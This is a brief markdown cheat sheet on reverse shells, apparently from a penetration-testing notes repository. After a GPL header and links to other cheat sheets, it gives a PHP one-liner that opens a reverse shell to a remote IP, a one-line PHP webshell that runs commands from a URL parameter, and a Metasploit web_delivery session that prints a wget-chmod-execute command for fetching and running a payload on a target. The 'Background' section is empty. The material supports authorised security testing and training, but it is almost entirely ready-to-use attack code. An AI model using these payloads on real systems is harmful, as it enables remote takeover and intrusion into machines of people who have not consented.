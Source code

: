 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# Reverse Shells
### References

* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) - Pentestmonkeys
* [Netcat cheat sheet v1](http://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) - Sans Penetration Testing
* [Fixing a raw shell](https://nullsec.us/fixing-a-raw-shell/) - Nullsec

## Background

## Tools

### Web

#### PHP

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Simple php webshell
```
<?php system($_GET['cmd']); ?>
```

### C2

#### metasploit web delivery
~~~
msf > use multi/script/web_delivery
msf > set target linux
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > run
[+] Local IP: http://10.0.0.199:1337/7ah30si
[+] Server started.
[+] Run the following command on the target machine:
wget -qO 98uh3sd http://10.0.0.199:1338/7ah30si; chmod +x 98uh3sd; ./98uh3sd& disown
~~~

